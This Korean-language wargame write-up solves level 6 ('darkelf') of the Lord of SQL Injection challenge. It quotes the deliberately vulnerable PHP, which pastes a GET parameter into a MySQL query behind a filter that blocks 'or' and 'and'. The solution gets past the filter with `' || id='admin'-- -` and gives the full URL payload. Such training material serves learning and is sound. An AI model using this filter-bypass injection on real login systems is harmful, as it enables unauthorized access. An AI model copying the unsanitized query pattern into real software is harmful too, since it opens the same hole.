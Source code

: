# Lord of SQL Injection No.6 - darkelf

## 문제 출제 의도

or, and를 사용하지 않고 원하는 문자열을 SELECT 하도록 SQL을 조작할 수 있는지 확인한다.

## 소스 코드 분석

darkelf 문제의 php 소스 코드는 다음과 같다.
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```
-----

```php
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
```
* GET방식으로 pw를 받고, pw에 `prob`, `_`, `.`, `()` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.

* 또한, pw에 대소문자 구분 없이 `or`, `and` 가 들어 있으면 `HeHe`가 뜨고 문제 풀이에 실패한다.

```php
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
```
* 받은 pw가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.

* 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 id에 "admin"이라는 값이 들어있음'이다.

-----

## Solution
    
1. `||`, `&&` 이용

    논리 연산을 막기 위해 `OR`, `AND`를 필터링 한 문제이다.

    그러나 논리 연산은 위 두 연산자 뿐만 아니라 `||`, `&&` 연산자도 존재한다.
    
    `OR`은 `||`로 완전히 대체 가능하고, `AND`는 `&&`로 완전히 대체 가능하다.

    이때, URL에 직접 SQL Injection을 수행하는 경우 `&` 문자는 그대로 삽입하면 작동하지 않으므로 URL Encoding을 거친 `%26` 으로 삽입하여야 한다.

    ```
    http://los.eagle-jump.org/darkelf_6e50323a0bfccc2f3daf4df731651f75.php?pw=' || id='admin'-- -
    ```
    ```sql
    select id from prob_darkelf where id='guest' and pw='' || id='admin'-- -'
    ```

    이는 $result['id']에 'admin'이 들어가도록 하므로 문제가 풀린다.
